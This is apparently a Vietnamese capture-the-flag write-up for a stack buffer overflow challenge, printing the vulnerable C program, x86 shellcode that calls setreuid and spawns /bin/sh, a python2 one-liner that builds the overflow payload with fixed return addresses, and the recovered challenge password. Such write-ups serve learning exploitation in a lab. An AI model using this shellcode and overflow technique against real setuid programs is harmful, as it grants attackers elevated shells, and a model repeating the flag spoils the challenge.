


# ELF x86 - Stack buffer overflow basic 5

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/types.h>
 
#define BUFFER 512
 
struct Init
{
  char username[128];
  uid_t uid;
  pid_t pid;  
   
};
 
void cpstr(char *dst, const char *src)
{
  for(; *src; src++, dst++)
    {
      *dst = *src;
    }
  *dst = 0;
}
void chomp(char *buff)
{
  for(; *buff; buff++)
    {
      if(*buff == '\n' || *buff == '\r' || *buff == '\t')
        {
          *buff = 0;
          break;
        }
    }
}
struct Init Init(char *filename)
{
   
  FILE *file;
  struct Init init;
  char buff[BUFFER+1];  
   
   
  if((file = fopen(filename, "r")) == NULL)
    {
      perror("[-] fopen ");
      exit(0);
    }
   
  memset(&init, 0, sizeof(struct Init));
   
  init.pid = getpid();
  init.uid = getuid();
   
  while(fgets(buff, BUFFER, file) != NULL)
    {
      chomp(buff);
      if(strncmp(buff, "USERNAME=", 9) == 0)
        {
          cpstr(init.username, buff+9);
        }
    }
  fclose(file);
  return init;
}
int main(int argc, char **argv)
{
  struct Init init;
  if(argc != 2)
    {
      printf("Usage : %s <config_file>\n", argv[0]);
      exit(0);
    }
  init = Init(argv[1]);
  printf("[+] Runing the program with username %s, uid %d and pid %d.\n", init.username, init.uid, init.pid);
   
  return 0;
}
```

Hàm `main` gọi hàm `Init()` với `argv[1]`, cơ chế giống với bài trước khi hàm `Init` trả về một struct.

Hàm `cpstr` giống hệt với hàm `strcpy`.

Hàm Init mở một file với đường dẫn tại `argv[1]`, tiến hành đọc từng dòng 1, nếu dòng có dạng `USERNAME=` thì copy nó vào `init.username`, ta sẽ tiến hành tấn công giống với bài trước, ta đặt shellcode vào trong biến `init.username`, ghi đè return address và vùng nhớ tạm giống nhau, chương trình sẽ return về shellcode. Tại shellcode, ta gọi `setreuid(1210, 1110)` và `system(“/bin/sh”, 0, 0)`.

Shellcode

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 0x4ba
	mov cx, 0x456
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Biến `init.username` có địa chỉ là `ebp – 0xa4`



Exploit:

```bash
python2 -c "print 'USERNAME=' + '\x31\xd2\x31\xc0\x31\xdb\x31\xc9\x66\xbb\xba\x04\x66\xb9\x56\x04\xb0\x46\xcd\x80\x31\xc0\x31\xc9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80' + '\x90' * 95 + '\x60\xb1\x04\x08' + 'A' * 28 + '\x70\xf9\xff\xbf' + '\x70\xf9\xff\xbf' + '\xaf\x90\xf6\xb7'" > /tmp/cobrad1
```

```bash
./ch10 /tmp/cobrad1
```



Password là: `h8Q!2)3=9"51`

